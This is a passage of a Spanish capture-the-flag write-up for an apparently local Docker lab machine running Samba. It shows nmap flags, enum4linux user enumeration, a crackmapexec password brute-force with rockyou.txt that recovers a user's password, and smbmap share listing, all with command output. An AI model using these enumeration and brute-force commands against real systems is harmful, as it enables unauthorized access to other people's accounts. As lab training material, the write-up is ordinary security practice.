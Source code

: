 - **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP(80)

Al revisar la web que hay en el puerto 80, vemos que no hay nada interesante
## SMB(445)

Utilizamos **enum4linux** :

```bash
[+] Enumerating users using SID S-1-5-21-3519099135-2650601337-1395019858 and logon username '', password ''                                          
                                                                                                                                                      
S-1-5-21-3519099135-2650601337-1395019858-501 SAMBASERVER\nobody (Local User)                                                                         
S-1-5-21-3519099135-2650601337-1395019858-513 SAMBASERVER\None (Domain Group)
S-1-5-21-3519099135-2650601337-1395019858-1000 SAMBASERVER\usuario1 (Local User)
S-1-5-21-3519099135-2650601337-1395019858-1001 SAMBASERVER\usuario2 (Local User)
S-1-5-21-3519099135-2650601337-1395019858-1002 SAMBASERVER\usuario3 (Local User)
S-1-5-21-3519099135-2650601337-1395019858-1003 SAMBASERVER\satriani7 (Local User)
S-1-5-21-3519099135-2650601337-1395019858-1004 SAMBASERVER\administrador (Local User)

```

Utilizamos **crackmapexec** para el usuario **satriani7** :

```bash
crackmapexec smb 172.17.0.2 -u satriani7 -p /usr/share/wordlists/rockyou.txt | grep -vE "FAIL"
SMB                      172.17.0.2      445    SAMBASERVER      [*] Windows 6.1 Build 0 (name:SAMBASERVER) (domain:SAMBASERVER) (signing:False) (SMBv1:False)
SMB                      172.17.0.2      445    SAMBASERVER      [+] SAMBASERVER\satriani7:50cent 
```

Utilizamos **smbmap** para ver que hay:
```bash
smbmap -H 172.17.0.2 -u satriani7 -p 50cent

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 172.17.0.2:445  Name: pressenter.hl             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        myshare                                                 READ ONLY       Carpeta compartida sin restricciones
        backup24                                                READ ONLY       Privado
```